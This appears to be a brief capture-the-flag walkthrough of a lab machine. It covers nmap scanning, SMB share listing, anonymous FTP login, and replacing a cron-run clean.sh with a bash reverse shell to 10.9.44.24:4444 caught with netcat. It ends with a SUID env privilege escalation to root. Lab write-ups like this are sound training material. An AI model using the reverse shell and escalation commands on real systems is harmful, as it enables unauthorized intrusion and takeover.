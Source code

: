 The IP `10.10.59.189`

run : `nmap -sC -sV -oN nmap-initial $IP`

We also noticed that the host hav e the smb client

run `smbclient -L $IP`

and we can see the shares on the smb client 

go to ftp : `ftp $IP` and login `anonymous` without passwd

and download the files

cool, now we know that we have a cron job that cleaning files by see the [`clean.sh](http://clean.sh)`  file and lets edit it and replace the original one with the reverse shell:

get [clean.sh](http://clean.sh) and modify the file by paste the reverse shell:

`bash -i >& /dev/tcp/10.9.44.24/4444 0>&1`

replace [clean.sh](http://clean.sh) in the ftp: go to the following folder where the clean.sh located and run:

`put clean.sh clean.sh`

and on the other tab start `nc: nc -lvnp 4444`

boom we got a shell

here we can find the `user.txt flag`

then we can run the comand for finding the interesting files for priv esc:

`find / -type f -perm -04000 -ls 2>/dev/null`

we see interesting `.env` go to gtfobins and see that we can use it to escalate priv:

run: `/usr/bin/env /bin/sh -p`

and you are `root`

`root.txt flag`